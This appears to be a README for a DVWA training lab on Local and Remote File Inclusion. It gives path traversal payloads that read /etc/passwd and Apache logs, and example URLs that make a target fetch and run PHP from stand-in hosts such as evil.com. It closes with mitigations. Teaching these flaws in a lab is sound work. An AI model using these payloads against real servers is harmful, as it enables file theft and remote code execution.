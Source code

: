 # File Inclusion Lab

## Overview
This lab demonstrates **File Inclusion vulnerabilities** in a web application. File Inclusion occurs when an application allows user input to determine which file is loaded, without proper validation.  

Attackers can exploit this to:
- Access sensitive files on the server (**Local File Inclusion – LFI**).  
- Include and execute remote files from external sources (**Remote File Inclusion – RFI**).  

---

## Objective
- Understand **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)**.  
- Exploit input fields to view sensitive files like `/etc/passwd` or configuration files.  
- Learn how path traversal works using `../` sequences.

---

## Types of File Inclusion

### 1. Local File Inclusion (LFI)
- Occurs when the application loads files from the **local server**.  
- Example URL parameter:

```

[http://example.com/index.php?page=home.php](http://example.com/index.php?page=home.php)

```

- By manipulating `page` with path traversal:

```

[http://example.com/index.php?page=../../../../etc/passwd](http://example.com/index.php?page=../../../../etc/passwd)

```

- You can access sensitive server files.  

---

### 2. Remote File Inclusion (RFI)
- Occurs when the application loads files from **remote servers**.  
- Example:

```

[http://example.com/index.php?page=http://evil.com/malicious.php](http://example.com/index.php?page=http://evil.com/malicious.php)

````

- The remote file can execute **malicious code** on the target server.  
- Very dangerous and often leads to full server compromise.

---

## Steps to Exploit LFI

1. Open the lab environment (DVWA or local web app).  
2. Set **Security Level → Low**.  
3. Navigate to **File Inclusion module**.  
4. Inspect the URL or input fields for file parameters (e.g., `file`, `page`, `document`).  
5. Try accessing **sensitive files**:

```text
../../../../etc/passwd
../../../../var/log/apache2/access.log
````

6. Repeat path traversal (`../`) until reaching the **root directory** if needed.
7. Observe output to extract information from the server.

---

## Steps to Exploit RFI

1. Host a malicious PHP file on your server:

```php
<?php
  echo "Remote code executed!";
?>
```

2. Inject the URL of your file in the vulnerable parameter:

```
http://target.com/index.php?page=http://yourserver.com/malicious.php
```

3. The target server will fetch and execute the remote file.

---

## Security Notes

* LFI/RFI vulnerabilities exist when user input is **not sanitized**.
* Always test in **controlled lab environments**.
* RFI is more dangerous than LFI as it allows **remote code execution**.

---

## Mitigation

1. **Input validation**: Only allow specific files or directories.
2. **Disable URL inclusion**: Prevent fetching remote files via `include()` or `require()`.
3. **Use whitelisting**: Maintain a list of allowed files.
4. **Restrict server permissions**: Limit web application access to sensitive directories.

---

## References

* [OWASP File Inclusion](https://owasp.org/www-community/attacks/Path_Traversal)
* DVWA Documentation

